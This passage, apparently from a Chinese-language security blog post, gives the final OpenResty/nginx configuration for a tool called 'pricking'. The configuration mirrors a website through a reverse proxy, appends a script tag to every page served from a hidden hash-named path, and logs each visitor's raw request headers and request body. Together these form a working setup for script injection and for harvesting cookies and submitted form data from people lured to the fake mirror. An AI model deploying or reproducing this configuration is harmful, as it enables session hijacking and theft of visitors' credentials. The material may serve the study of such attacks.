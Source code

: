 `ngx.localtime()`和`ngx.req.raw_header()`是调用了[Lua Ngx API](https://openresty-reference.readthedocs.io/en/latest/Lua_Nginx_API/)。

## 0x05 最终配置

```
worker_processes  1;
events {
    worker_connections  1024;
}


http {
    include       mime.types;
    default_type  application/octet-stream;
    sendfile        on;
    log_format  logeverything  '$current_time - $remote_addr \n$request_headers \n\n$request_body\n';
    

    server {
            set $request_headers "";
            set $current_time "";

            server_name proxy.payloads.online;
            listen 80;

            location ^~ /7276df76835ed2272cc0e59f55e49902/ {
                alias    /tmp/pricking/static/;
            }


            location / {
                proxy_pass http://payloads.online;
                proxy_set_header Host payloads.online;
                header_filter_by_lua_block { ngx.header.content_length = nil}
                body_filter_by_lua_block{
                        local chunk, eof = ngx.arg[1], ngx.arg[2]
                        local buffered = ngx.ctx.buffered
                        if not buffered then
                           buffered = {}
                           ngx.ctx.buffered = buffered
                        end
                        if chunk ~= "" then
                           buffered[#buffered + 1] = chunk
                           ngx.arg[1] = nil
                        end
                        if eof then
                           local whole = table.concat(buffered)
                           ngx.ctx.buffered = nil
                           whole = whole .. "<script src='/7276df76835ed2272cc0e59f55e49902/static.js' type='module'></script>"
                           ngx.arg[1] = whole
                        end
                }
                log_by_lua_block {
                    ngx.var.current_time = ngx.localtime()                  
                    ngx.var.request_headers = ngx.req.raw_header()
                }
        }
        access_log /tmp/pricking/access.log logeverything;
    }
}
```